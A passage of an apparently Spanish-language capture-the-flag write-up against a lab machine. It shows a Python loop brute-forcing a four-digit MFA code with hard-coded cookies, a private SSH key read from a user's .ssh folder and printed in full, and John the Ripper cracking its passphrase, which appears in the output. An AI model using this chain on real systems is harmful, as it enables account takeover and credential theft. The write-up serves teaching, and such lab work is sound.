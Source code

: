 ```bash
url = "http://10.10.118.236/console/mfa.php"

for i in range(1000,10000):
        toPost={"code": i}
        r = requests.post(url, data = toPost, cookies = {"user": "jason_test_account", "pwd": "violet"})
        print(i)
        if not "Incorrect" in r.text:
                print("Found" + str(i))
                break
```
Una vez que hemos logrado acceder, nos encontramos con un panel simple que nos permite explorar archivos y mostrar su contenido. Encontré un archivo llamado 'id_rsa' en la ubicación /home/jason/.ssh
```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,983BDF3BE962B7E88A5193CD1551E9B9

nspZgFs2AHTCqQUdGbA0reuNel2jMB/3yaTZvAnqYt82m6Kb2ViAqlFtrvxJUTkx
vbc2h5vIV7N54sHQvFzmNcPTmOpy7cp4Wnd5ttgGpykiBTni6xeE0g2miyEUu+Qj
JaLEJzzdiehg0R3LDqZqeuVvy9Cc1WItPuKRLHJtoiKHsFvm9arbW4F/Jxa7aVgH
l5rfo6pEI0liruklDfFrDjz96OaRtdkOpM3Q3GxYV2Xm4h/Eg0CamC7xJC8RHr/w
EONcJm5rHB6nDVV5zew+dCpYa83dMViq7LOGEZ9QdsVqHS59RYEffMc45jkKv3Kn
ky+y75CgYCWjtLbhUc4Ml21kYz/pDdObncIRH3m6aF3w/b0F/RlyAYQYUYGfR3/5
Y9a2/hVbBLX7oM+KQqWHD5c05mLNfAYWTUxtbANVy797CSzYssMcCrld7OnDtFx7
qPonOIRjgtfCodJuCou0o3jRpzwCwTyfOvnd29SF70rN8klzjpxvqNEEbSfnh04m
ss1fTMX1eypmCsHecmpjloTxdPdj1aDorwLkJZtn7h+o3mkWG0H8vnCZArtxeiiX
t/89evJXhVKHSgf83xPvCUvnd2KSjTakBNmsSKoBL2b3AN3S/wwapEzdcuKG5y3u
wBvVfNpAD3PmqTpvFLClidnR1mWE4r4G1dHwxjYurEnu9XKO4d+Z1VAPLI2gTmtd
NblKTwZQCWp20rRErOyT9MxjT1gTkVmpiJ0ObzQHOGKJIVaMS8oEng2gYs48nugS
AsafORd3khez4r/5g9opRj8rdCkK83fG5WA15kzcOJ+BqiKyGU26hCbNuOAHaAbq
Zp+Jqf4K6FcKsrL2VVCmPKOvkTEItVIFGDywp3u+v0LGjML0wbrGtGzP7pPqYTZ5
gJ4TBOa5FUfhQPAJXXJU3pz5svAHgTsTMRw7p8CSfedCW/85bMWgzt5XuQdiHZA0
FeZErRU54+ntlJ1YdLEjVWbhVhzHyBXnEXofj7XHaNvG7+r2bH8GYL6PeSK1Iiz7
/SiK/v4kjOP8Ay/35YFyfCYCykhdJO648MXb+bjblrAJldeXO2jAyu4LlFlJlv6/
bKB7viLrzVDSzXIrFHNoVdFmLqT3yEmui4JgFPgtWoHUOQNUw8mDdfCR0x3GAXZP
XIU1Yn67iZ9TMz6z8HDuc04GhiE0hzI6JBKJP8vGg7X8rBuA7DgoFujSOg7e8HYX
7t07CkDJcAfqy/IULQ8pWtEFTSXz1bFpl360v42dELc6BwhYu4Z4qza9FtYS0L/d
ts5aw3VS07Xp5v/pX+RogV8uIa0jOKTkVy5ZnnlJk1qa9zWX3o8cz0P4TualAn+h
dQBVNOgRIZ11a6NU0bhLCJTL2ZheUwe9MTqvgRn1FVsv4yFGo/hIXb6BtXQE74fD
xF6icxCBWQSbU8zgkl2QHheONYdfNN0aesoFGWwvRw0/HMr4/g3g7djFc+6rrbQY
xibeJfxvGyw0mp2eGebQDM5XiLhB0jI4wtVlvkUpd+smws03mbmYfT4ghwCyM1ru
VpKcbfvlpUuMb4AH1KN0ifFJ0q3Te560LYc7QC44Y1g41ZmHigU7YOsweBieWkY2
-----END RSA PRIVATE KEY-----
```
Vamos a descifrar esta contraseña. Primero, la copiamos a un archivo, por ejemplo key.txt, luego la convertimos en un hash para john
```bash
ssh2john key.txt > hash.txt
```
Una vez que lo hemos convertido en hash, podremos ejecutar John the Ripper
```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt 
```
Resultado:
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
1a2b3c4d         (key.txt)     
1g 0:00:00:00 DONE (2024-05-04 20:56) 33.33g/s 166633p/s 166633c/s 166633C/s 1a2b3c4d
Use the "--show" option to display all of the cracked passwords reliably
```